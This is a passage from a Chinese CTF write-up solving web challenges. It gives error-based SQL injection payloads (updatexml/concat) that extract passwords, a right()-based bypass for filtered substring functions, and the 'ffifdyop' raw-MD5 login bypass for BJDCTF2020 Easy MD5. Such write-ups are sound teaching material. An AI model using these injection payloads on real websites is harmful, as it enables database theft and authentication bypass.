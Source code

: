 ![image-20250210102309753](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250210110052641.png)

```
?username=111'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1))%23
```

![image-20250210110622237](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250210110622237.png)

这里发现flag显示不全，发现要用`substring`​于`mid`​来绕过，但是被过滤了，这里就可以用`right`​和`left`​来绕过

这里要拿到右边的flag

```
?username=111'or(updatexml(1,concat(0x7e,(select(right(password,25))from(H4rDsq1)),0x7e),1))%23
```

成功获取到完整flag

![image-20250207174248753](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250210111352198.png)

![image-20250314213021135](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250314213021135.png)

### [BJDCTF2020]Easy MD5

拿到题目，试了sql，试了命令注入，但是都没有回显，蒙了，查源码没发现东西，只知道传入的是password参数

查看wp，才知道在回显处有提示

![image-20250207165217996](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250207165217996.png)

```sql
 select * from 'admin' where password=md5($pass,true)
```

> md5($pass, true)：这个后面的true默认值是false，就会返回32字符的hex字符串
>
> 如果为true，就会返回hex的二进制数据（RAW格式）

就是sql注入，但是注入的内容被md5加密了

所以为了绕过这个，需要被md5加密之后得到的值变为raw格式后让原查询句子变为

```sql
 select * from 'admin' where password='' or '1'
```

后面是什么数字都行

这里想用代码跑一个出来，不过想想就知道不可能，于是就用了wp中给的，记住其实应该就行（

```
ffifdyop
md5值为：
'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
```

成功进入下一个页面

```php
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->

```
